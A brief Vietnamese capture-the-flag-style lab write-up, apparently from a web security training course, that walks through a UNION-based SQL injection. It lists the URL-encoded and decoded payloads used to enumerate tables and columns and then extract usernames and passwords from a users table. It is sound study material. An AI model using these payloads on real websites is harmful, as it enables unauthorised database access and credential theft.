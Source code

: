 - Tiến hành DB reconaissance:

category=%27%20UNION%20SELECT%20table%5Fname%2C%20null%20FROM%20information%5Fschema%2Etables%2D%2D

→ ‘ UNION SELECT table_name, null FROM information_schema.tables—

- Đây khả năng là nơi chứa thông tin user:

![image.png](image%201.png)

- Tiếp tục tìm thông tin về các cột của bảng này:

category=%27%20UNION%20SELECT%20column%5Fname%2C%20null%20FROM%20information%5Fschema%2Ecolumns%20WHERE%20table%5Fname%3D%27users%5Fvqymdo%27%2D%2D

→' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users_vqymdo'—

- Thu được:

![image.png](image%202.png)

- Chốt sổ :

category=%27%20UNION%20SELECT%20username%5Fnqilzh%2C%20password%5Fubmmtn%20FROM%20users%5Fvqymdo%2D%2D

→ ' UNION SELECT username_nqilzh, password_ubmmtn FROM users_vqymdo—

![image.png](image%203.png)

**Lab: SQL injection attack, listing the database contents on Oracle**
